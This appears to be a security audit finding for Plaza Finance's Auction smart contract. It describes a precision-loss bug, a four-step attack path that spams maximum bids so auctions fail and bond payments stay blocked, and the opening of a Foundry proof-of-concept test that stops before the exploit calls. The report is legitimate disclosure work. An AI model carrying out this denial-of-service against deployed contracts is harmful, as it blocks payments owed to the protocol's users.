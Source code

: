 ### Root Cause

[Auction.sol#L382-L384](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L382-L384) does not account for precision loss allowing it to be exploited

### Internal preconditions

None

### External preconditions

None

### Attack Path

1. Spam max bids at size == slotSize
2. Wait for auction to end
3. End auction in failure
4. Refund all bids

### Impact

Bond payments can be indefinitely DOS'd due to forcing auctions to fail

### POC

Tests for all vulnerabilities can be found [here](https://gist.github.com/IAm0x52/05589415ce45af83aa4f7a5f63afbf45).

Insert the following test into Pool.t.sol

    function testDOSAuction() public {
        //test setup
        Token rToken = Token(params.reserveToken);
        Token cToken = Token(params.couponToken);

        vm.prank(user);
        address auction = Utils.deploy(
        address(new Auction()),
        abi.encodeWithSelector(
            Auction.initialize.selector,
            address(cToken),
            address(rToken),
            5000e6 + 1,
            block.timestamp + 1 days,
            10, // max bids set to 10 for simplicity of the test
            address(this),
            90
        ));

        cToken.mint(user, 1e18);
        cToken.mint(user2, 1e18);

        vm.prank(user);
        cToken.approve(auction, type(uint256).max);
